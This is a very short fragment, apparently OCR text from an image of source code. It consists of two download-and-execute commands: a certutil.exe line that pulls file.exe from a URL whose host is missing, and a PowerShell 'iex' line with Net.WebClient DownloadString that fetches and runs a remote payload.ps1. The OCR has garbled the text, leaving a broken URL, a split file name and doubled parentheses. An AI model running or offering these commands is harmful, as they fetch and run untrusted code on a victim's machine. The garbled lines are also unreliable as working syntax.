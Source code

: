 certutil.exe -urlcache -f http:///file.exe file.exe

iex
(New-Object Net.WebClient).DownloadString (('https://webserver/payload. ps1')